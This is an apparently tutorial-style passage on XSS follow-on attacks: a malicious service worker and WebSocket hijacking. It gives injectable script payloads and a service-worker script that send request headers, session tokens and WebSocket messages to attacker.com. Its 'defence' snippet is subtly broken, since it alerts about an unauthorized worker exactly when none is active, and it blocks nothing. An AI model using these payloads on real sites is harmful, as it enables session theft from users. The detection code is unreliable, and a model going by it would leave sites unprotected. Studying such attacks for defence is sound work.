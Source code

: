 Using an XSS vulnerability, inject this payload into the site:

<script>
    navigator.serviceWorker.register("https://attacker.com/sw.js");
</script>

🔥 Malicious Service Worker (sw.js)

On the attacker's server (attacker.com/sw.js), the following script will intercept all network requests and steal session tokens:

self.addEventListener("fetch", (event) => {
    fetch("https://attacker.com/steal", {
        method: "POST",
        body: JSON.stringify({
            url: event.request.url,
            headers: [...event.request.headers.entries()],
        }),
    });
});

💣 What This Does:

    Intercepts all network requests (e.g., API calls, login requests).
    Sends session tokens and authentication headers to the attacker’s server.
    Persists across browser reloads, even after logging out.

✅ How to Defend Against This?

    Use a strong Content Security Policy (CSP)

Content-Security-Policy: default-src 'self'; worker-src 'self'

Disable unauthorized Service Worker registration

    if (window.navigator.serviceWorker.controller) {
        console.log("Service Worker active!");
    } else {
        alert("Unauthorized Service Worker detected!");
    }

⚡ 2️⃣ WebSocket Hijacking via XSS

WebSockets allow real-time data exchange, but if an attacker gains access via XSS, they can listen for messages, modify them, or inject fake commands.
🔴 Example: WebSocket Hijacking via XSS

If a web app uses WebSockets like this:

const ws = new WebSocket("wss://secure-app.com/socket");
ws.onmessage = (event) => {
    document.body.innerHTML += event.data; // ⚠️ Injecting unvalidated data!
};

An attacker can inject a script to hijack messages:

<script>
    const ws = new WebSocket("wss://secure-app.com/socket");
    ws.onmessage = (event) => {
        fetch("https://attacker.com/log", {
            method: "POST",
            body: event.data,
        });
    };
</script>
